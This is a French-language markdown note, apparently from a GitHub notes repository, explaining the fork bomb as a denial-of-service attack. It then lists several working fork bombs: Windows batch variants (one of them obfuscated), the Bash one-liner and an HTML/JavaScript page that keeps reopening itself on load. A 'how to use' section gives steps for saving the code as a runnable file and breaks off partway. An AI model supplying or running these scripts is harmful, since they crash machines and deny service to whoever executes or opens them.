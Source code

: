 # Fork bomb
La fork bomb est une forme d'attaque par déni de service contre un système informatique utilisant la fonction fork.  

Elle est basée sur la supposition que le nombre de programmes et de processus pouvant être exécutés simultanément sur un ordinateur est limité.

## Principe
Une fork bomb fonctionne en créant un grand nombre de processus très rapidement, au moyen de la fonction fork, afin de saturer l'espace disponible dans la liste des processus gardée par le système d'exploitation.  

Si la table des processus se met à saturer, aucun nouveau programme ne peut démarrer tant qu'aucun autre ne termine.  

Même si cela arrive, il est peu probable qu'un programme utile démarre étant donné que les instances de la bombe attendent chacune d'occuper cet emplacement libre.

# Code
```
@echo off
:start
start
goto :start
```
[forkBomb.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/Scripts/forkbomb.bat)

## Variante Windows (Batch)
```
%0|%0
```
[forkBomb2.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/Scripts/forkbomb2.bat)

## Variante Windows 2 (Batch)
```
@echo.%0^|%0>$^_^.c^md&$_>nul
```
[forkBomb3.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/Scripts/forkbomb3.bat)

## Variante Linux (Bash)
```
:(){ :|:& };:
```
[forkBomb.sh](https://github.com/Altherneum/.github/blob/main/note/OS/Linux/forkBomb.sh)

## Variante HTML / JS
```
<script type="text/javascript">
  function open_target_blank() 
  {
    window.open(window.location);
  }
  window.onload = open_target_blank();
</script>
```
[forkBomb.html](https://github.com/Altherneum/.github/blob/main/note/Code/Web/HTML/forkBomb.html)

# Comment utiliser

## Créer le fichier
- Créer un fichier [NOM].bat
- Modifier le text du fichier avec le code suivant : [Code](#Code)
- Vérifier que vous enregistrez bien le type de fichier en "Tout type de fichier" et non pas text uniquement
![notepad_hreGWL4UXj](https://saveAsMatrice.bat.png)